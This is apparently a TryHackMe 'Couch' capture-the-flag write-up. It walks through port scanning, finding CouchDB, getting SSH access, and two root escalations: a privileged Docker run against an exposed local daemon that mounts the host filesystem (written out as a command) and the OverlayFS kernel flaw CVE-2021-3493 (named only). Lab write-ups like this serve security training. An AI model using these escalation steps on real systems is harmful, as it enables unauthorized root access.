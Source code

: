 # Couch - TryHackMe Challenge

Hatami Ra'is Bukhari (Althemier)
[Challenge link](https://tryhackme.com/room/couch)

## Scanning

Nmap scan
```bash
nmap -sC -sV -oN nmap/result.txt $IP

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

For some reason the scan only show 1 port, even with tag `-A`, so lets try the other method which is `Rustscan`[[1]](https://github.com/RustScan/RustScan)

```bash
Open 10.10.75.191:22
Open 10.10.75.191:5984
```

Much better. `22` is SSH, then what is `5984`? Quick googling, it's for `CouchDB`.

Access `CouchDB` with typing this into your browser: [[2]](https://cloud.ibm.com/docs/Cloudant?topic=Cloudant-access-couchdb-cluster)
```
http://10.10.172.141:5984
```

Or with curl
```bash
curl 10.10.172.141:5984
```

Both method will give you respon where you get the version of the `CouchDB` as well as the machine OS

> What is path for the web administration tool for this database management system?

> What is path for list all databases in the web browser of the database management system?

You can get both answer with some googling, *explore the world*

Once you find out how to do web administrator `CouchDB`, you can find the credential to `SSH` to the machine

## Where is my flag

`user.txt` contain the first flag.

Escalate privileges however... its fun

You can do the casual check priv-esc like:
- `sudo -l`, you get the information that you dont have sudo privileges
- Eploring SUID with `find / -perm -4000 2>/dev/null` also found nothing
- Running `Linpeas` [[3]](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) aslo found nothing.

So, I found 2 method on how to priv esc ro root

### Docker

If you check the user home directory, there is a file called `.bash_history`. This file contain the information of history command type in terminal. So lets see what we have here
```bash
sudo -s
cd /etc/apt/
rm sources.
rm sources.list
.
.
.
.
.
.
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
uname -a
exit
```

Docker command, huh. Lets try it
```bash
docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine

/ #
```

Huh, we can access this container

Lets see what we have here, maybe we can find this `root.txt` with `find` [[4]](https://tryhackme.com/room/thefindcommand)
```bash
find / -type f -name root.txt
#Find any file start from root directory where the name is root.txt
#Once found, you can open it without permision needed.
cat /???/????/????.txt
```

### Kernel Exploited

Although the method above may have been the intended way, but why dont try other method

If we recall to we try to access `CouchDB` to browser we have the info that the OS run the database is Ubuntu version 16.04

There is one room in TryHackMe [[5]](https://tryhackme.com/room/overlayfs) explaining about CVE-2021-3493 [[6]](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3493).

TLDR, on some version of Ubuntu which the one we have right now has vulnerability on OverlayFS which allow local users to get root access. The user only need to compile a scripts and run it to gain instant root, pretty cool right?

You can pause what you currently doing and complete Overlayfs room [[5]](https://tryhackme.com/room/overlayfs) or read and apply what `Overlayfs` has to offer, once finish with `Couch` you can complete `Overlayfs`

